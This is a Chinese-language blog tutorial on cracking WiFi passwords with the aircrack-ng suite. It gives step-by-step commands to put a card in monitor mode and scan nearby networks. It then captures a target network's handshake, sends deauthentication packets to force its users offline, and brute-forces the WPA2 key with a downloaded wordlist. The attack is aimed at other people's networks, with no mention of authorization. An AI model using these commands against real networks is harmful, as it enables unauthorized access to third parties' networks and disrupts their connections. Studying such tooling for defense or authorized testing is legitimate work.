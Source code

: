 ```yaml
---
title: wifi密码破解
top: false
cover: false
toc: true
mathjax: true
date: 2023-01-16 06:29:43
password: d5e8139b6262895c208b9fd9e7a21ecba14eb00445638566fcb77bae14408691
summary: Wifi密码暴力破解，不一定成功
tags: wifi
categories: Linux
---
```


### aircrack-ng工具安装
> 如果你是Kali用户，那么可以跳过这一步，Kali自带，我们以Ubuntu为例：
```shell
sudo apt install aircrack-ng # 安装aircrack-ng 这个工具kali-linux默认安装了
```

### 查看无线网卡
```shell
airmon-ng # 查看可用的无线网卡一般以`w`开头
```

### 开启监听模式
```shell
airmon-ng start <网卡名称> # 指定无线网卡开启监听模式
```

### 扫描附近的无线网
```shell
airodump-ng <处于监听模式的网卡名称> # 用这个监听网卡扫描附近的无线网络

# airodump-ng wlp8s0mon
# BSSID: 无线 AP 的硬件地址
# PWR: 信号强度，值是负数，绝对值越小表示信号越强
# CH: 无线网络信道
# ENC: 加密方式，我们要破解的是 WPA2
# ESSID: 无线网络的名称
```

### 监听你想破解的无线网
```shell
airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称> # 使用参数过滤扫描列表，确定扫描目标,可以出指定wifi哪些人在使用 只要有人链接这个wifi就会被抓包

# BSSID: 无线 AP 的硬件地址
# STATION: 用户设备的硬件地址
```

### 对无线AP或者用户设备发起ACK攻击
```shell
aireplay-ng -<攻击模式(0为下线)> <攻击次数(0为一直攻击)> -a 无线 AP 硬件地址> -c <用户设备硬件地址> <处于监听模式的网卡名称> # 使用 aireplay-ng 对目标设备发起ack攻击 让他强制下线 方便他重新链接抓包成功

aireplay-ng -<攻击模式(0为下线)> <攻击次数(0为一直攻击)> -a 无线 AP 硬件地址> <处于监听模式的网卡名称> # 使用 aireplay-ng 对无线AP设备发起ack攻击 让连接他的设备都下线 方便他重新链接抓包成功
```

### 破解密码
```shell
aircrack-ng -w 密码字典 <包含握手包的 cap 文件> # 使用 aircrack-ng 暴力破解 Wi-Fi 密码 成功会返回 KEY FOUND! 密码字典去网上下载多得很 
```

### 退出监听模式，连接无线网
```shell
airmon-ng stop <处于监听模式的无限网卡名称> # 无线网卡退出监听模式
```

### 使用命令连接网络
```shell
sudo systemctl start NetworkManager # 开启网络服务

ip addr 或者 ifconfig # 查看无线网卡名称(w开头得)

iwlist 无线网卡 scanning | grep -i essid # 扫描可用wifi

nmcli device wifi connect wifi名字 password wifi密码 ifname 无线网卡 # 用这个无线网卡链接指定wifi
```

### 卸载ubuntu系统的IO驱动，不让别人乱碰你得电脑
```shell
sudo apt install xserver-xorg-input-all # 安装

sudo apt autoremove xserver-xorg-input-all # 卸载
```

